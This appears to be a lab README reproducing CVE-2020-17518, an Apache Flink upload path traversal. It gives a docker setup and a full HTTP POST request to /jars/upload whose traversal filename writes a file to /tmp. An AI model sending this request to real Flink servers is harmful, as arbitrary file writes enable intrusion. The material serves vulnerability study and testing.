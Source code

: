# Apache Flink Upload Path Traversal (CVE-2020-17518)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER.

References:

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Use following request to upload a file to `/tmp/success`:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

![](1.png)
